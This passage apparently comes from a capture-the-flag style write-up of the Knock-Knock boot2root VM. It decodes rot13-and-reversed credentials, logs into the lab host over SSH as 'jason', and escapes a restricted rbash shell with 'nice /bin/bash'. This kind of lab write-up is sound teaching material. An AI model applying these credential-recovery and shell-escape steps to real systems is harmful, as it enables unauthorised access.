 ```bash
root@kali:~# python -c 'print "abfnW".decode("rot13")'
nosaJ
```

abfnW decoded directly to **nosaJ**. That is _Jason_ reversed. So is the username `Jason`? Next, I tackled `sax2Cw9Ow` in a similar fashion:

```bash
root@kali:~# python -c 'print "sax2Cw9Ow".decode("rot13")'
fnk2Pj9Bj
```

sax2Cw9Ow decodes to **fnk2Pj9Bj**. Is this one also reversed? After a number of attempts and variations, it turns out that the user name is **jason** (without the cap _J_) and the password is **fnk2Pj9Bj** (jB9jP2knf reversed.) To get the strings in their correct values, we can use the following 2 one liners to get them:

```bash
# username
root@kali:~# python -c 'print "abfnW".decode("rot13")[::-1].lower()'
jason

# password
root@kali:~# python -c 'print "sax2Cw9Ow".decode("rot13")[::-1]'
jB9jP2knf
```

So to get our first shell:

```bash
root@kali:~/Desktop/knock-knock# ssh jason@192.168.56.203
jason@192.168.56.203's password: 

Linux knockknock 3.2.0-4-486 #1 Debian 3.2.60-1+deb7u3 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Mon Oct  6 12:33:37 2014 from 192.168.56.202
jason@knockknock:~$
```

##no rbash, just no
Upon first login, I pressed TAB out of pure habit and was immediately presented with the following:

```bash
jason@knockknock:~$ -rbash: /dev/null: restricted: cannot redirect output
-rbash: /dev/null: restricted: cannot redirect output
```
Rbash? Oh well thats ok. I checked by inspecting the env var for `SHELL` which was `/bin/rbash` just to confirm. Thanks to having recently met a similar situation during the [Persistence](https://leonjza.github.io/blog/2014/09/18/from-persistence/) boot2root and learning new ways of breaking out of `rbash`, I just typed `nice /bin/bash`, which runs a program, supposedly modifying its priority. In this case we care little about the priority. :) We now have a full `bash` shell.
